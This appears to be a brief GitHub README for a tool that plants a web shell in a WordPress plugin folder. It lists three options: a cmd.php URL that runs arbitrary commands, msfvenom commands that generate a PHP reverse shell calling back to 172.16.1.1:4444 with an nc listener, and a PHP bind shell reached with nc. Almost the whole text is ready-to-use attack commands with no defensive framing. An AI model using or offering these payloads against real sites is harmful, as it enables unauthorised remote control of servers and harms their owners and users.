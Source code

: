 # wordpress-reverse-bind-shell

## 1st option
http://server.fun/wordpress/wp-content/plugins/wordpress-reverse-bind-shell/cmd.php?cmd=whoami

## 2nd option
msfvenom -p php/reverse_php -f raw  LHOST=172.16.1.1 LPORT=4444 -o reverse.php

nc -lvnp 4444

## 3rd option
msfvenom -p php/bind_php -f raw LPORT=4444 -o bind.php

nc server.fun 4444

## ToDo
More details...
